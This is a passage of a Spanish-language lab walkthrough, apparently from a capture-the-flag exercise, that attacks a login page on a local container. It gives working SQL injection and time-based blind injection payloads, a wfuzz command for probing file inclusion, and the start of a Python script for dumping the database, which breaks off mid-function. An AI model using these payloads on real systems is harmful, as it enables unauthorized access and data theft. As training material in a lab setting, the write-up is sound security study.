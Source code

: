 Con esta query logramos ganar acceso al panel del usuario **dylan**
```bash
admin' or 1=1-- -
```

Ahora estamos en la siguiente ruta:
```bash
http://172.17.0.2/acceso_valido_dylan.php
```

Ahora probaremos si el archivo **php** es vulnerable a un **LFI** con el siguiente comado, pero no encontramos nada:
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Cookie: PHPSESSID=ufsg0br0lj7f6ug5encnmsds3q" -u "http://172.17.0.2/acceso_valido_dylan.php?=FUZZ" --hw=119
```

## Dumpeando Base de Datos `SQLInjection Time-Based`
Asi que como tenemos que el error en caso de que tengamos mal el inicio de sesion nos reporta asi que nos aprovecharemos de esto para intentar dumpear la base de datos.
Ahora que sabemos que el panel de inicio de sesion es vulnerable a inyeccin basada en tiempo:
```bash
admin' or sleep(5)-- -
```

##### Python Script:
Crearemos un script en **python** para dumpear la base de datos pero primero tenemos que sacar el nombre y la longitud de la base de datos
Hemos determinado que la primer letra de la base de datos es: **( r )**
```bash
admin' or IF(SUBSTRING(DATABASE(),1,1)='r', SLEEP(5), 0)-- -
```

Ahora determinaremos la longitud de la base de datos:
Hemos determinado que es de: **( 8 )**
```bash
' OR IF(LENGTH(DATABASE())=8, SLEEP(5), 0)-- -
```

Ahora con esta informacion podemos empezar con la construccion de nuestro script:
**Nota** Nuestro script por alguna razon no logro encontrar del todo la informacion:
```python
#!/usr/bin/env python3

import time 
import requests
import signal
import sys
import string
from termcolor import colored as c 

# Forzamos la salida:
def ctrl_c(sig, frame):
    print(c(f"\n\n[-] Saliendo...", "red"))
    sys.exit(1)

signal.signal(signal.SIGINT, ctrl_c)

# Variables globales:
main_url = "http://172.17.0.2/index.php"
characters = string.ascii_lowercase + string.digits + "_"

def makeSQLI():
    extracted_name_db = "" # Aqui almacenamos el nombre de la base de datos
    max_length = 20 # Longitud a probar

```